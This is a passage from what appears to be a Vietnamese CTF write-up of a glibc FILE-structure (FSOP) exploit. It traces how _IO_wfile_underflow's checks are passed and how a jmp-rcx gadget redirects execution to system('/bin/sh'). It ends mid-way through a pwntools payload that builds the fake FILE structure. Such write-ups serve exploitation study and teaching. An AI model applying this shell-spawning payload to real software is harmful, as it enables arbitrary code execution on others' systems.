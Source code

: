 ![{2A3C4854-EA8A-404E-911E-60E1CF00D117}](https://hackmd.io/_uploads/Sk6K7wFa1g.png)
- Tương ứng tại đó đang là giá trị của `_codecvt`. Đây là một giá trị cần thiết cho hàm để việc thực thi được trơn tru nên ta sẽ thiết lập thành một địa chỉ phù hợp, ở đây địa chỉ đó sẽ là `IO_file + 168` vì đây là vùng không bị ảnh hưởng trong quá trình thực thi nên ta tạm thiết lập vậy và là để phục vụ cho mục tiêu khai thác. 
- Tuy nhiên, sau đó hàm đồng thời cũng thực hiện việc tham chiếu đến giá trị tại địa chỉ mà thanh ghi r13 đang lưu mà lúc này r13 đang là 0 ( giá trị của địa chỉ `IO_file + 168`) nên ta sẽ tiến hành thiết lập tại đây một địa chỉ phù hợp nữa để có thể vượt qua lần kiểm tra.
- Ta cũng thấy rằng hàm `IO_wfile_underflow` cũng chỉ kiểm tra cách con trỏ đến cái vùng read mà không sử dụng các vùng write nên ta có thể sử dụng các con trỏ write của `IO_file` để lưu dữ liệu và ta sẽ đặt tại `IO_file+168` là `IO_file+24`.
- Tại call rbp:
![{21B146E9-3144-464E-A168-8AB1F5082513}](https://hackmd.io/_uploads/SkseNtFa1g.png)
- Ta thấy rằng hiện tại rbp đang có giá trị là 0 và tại rdi hiện tại cũng là một địa chỉ stack không phải mục tiêu nên để đạt được mục tiêu cần thiết thì ta cần xem quá trình thiết lập giá trị cho rbp và rdi:
> RBP:
> ![{6381C326-B8D6-4138-B42B-0DC6AB7AA567}](https://hackmd.io/_uploads/H1_MHYY6kl.png)
> - rbp sẽ được gán với giá trị tại `IO_file + 64` và vì vậy ta sẽ thiết lập tại đó là một hàm hoặc gadget nào đó.
> 
> RDI:
> ![{6A5A96C8-D648-4154-A759-13666B6945BE}](https://hackmd.io/_uploads/B1XqUFY6kl.png)
> - rdi được gán với giá trị trong thanh ghi r13 lúc này là `IO_file + 24` 
- Với những điều này thì ta không thể đơn giản đặt tại `IO_file + 24` và `IO_file + 64` lần lượt là chuỗi '/bin/sh' và hàm system được vì trước đó chương trình có tiến hành kiểm tra xử lí và thông qua đó làm biến đổi giá trị của hàm system và ta không thể gọi trực tiếp được:
![{48040CD1-7C82-4241-B6B9-CE2317E89913}](https://hackmd.io/_uploads/SySFDYtTye.png)
![{7ABFB656-BA31-42BF-91A1-12A098EFA269}](https://hackmd.io/_uploads/S1r9wKKT1g.png)
- Vậy nên bắt buộc ở đây ta phải gọi hàm system thông qua gadget và phương án khả thi ở đây là một gadget có thể gọi hàm trong thanh ghi rcx (lúc này đang chứa địa chỉ hàm system) và ta có gadget: `add rdi, 0x10; jmp rcx;`
- Với gadget này ta phải thiết lập lại ví trí đặt địa chỉ chuỗi '/bin/sh' thành `IO_file + 24 + 0x10`.

### 3. Cooking shell
Sau tất cả ta sẽ có một fake File Structure được thiết lập như sau:
```python=
IOfile = flat(
    0x3b01010101010101,         # 0x00      0       - Ghi đè `_flags`
    p64(0),                     # 0x08      8       - `_IO_read_ptr`
    p64(sys),                   # 0x10      16      - `_IO_read_end`
    p64(0),                     # 0x18      24      - `_IO_read_base`
    p64(0),                     # 0x20      32      - `_IO_write_base`
    p64(bis),                   # 0x28      40      - `_IO_write_ptr`
    p64(0),                     # 0x30      48      - `_IO_write_end`
    p64(0),                     # 0x38      56      - `_IO_buf_base`
    p64(gad),                   # 0x40      64      - `_IO_buf_end`
    p64(0),                     # 0x48      72      - `_IO_save_base`
    p64(0),                     # 0x50      80      - `_IO_backup_base`
    p64(0),                     # 0x58      88      - `_IO_save_end`
    p64(0),                     # 0x60      96      - `_markers`
    p64(0),                     # 0x68      104     - `_chain`,
    p64(0),                     # 0x70      112     - `_flagno`
    p64(0),                     # 0x78      120     - `_flags2`
    p64(0),                     # 0x80      128     - `_old_offset`
    p64(lock),                  # 0x88      136     - `_lock`
    p64(0),                     # 0x90      144     - `_unused1`
    p64(stdout+168),            # 0x98      152     - `_codecvt
    p64(0),                     # 0xa0      160     - `_wide_data`
    p64(stdout+24),             # 0xa8      168     - `unknown2`
```
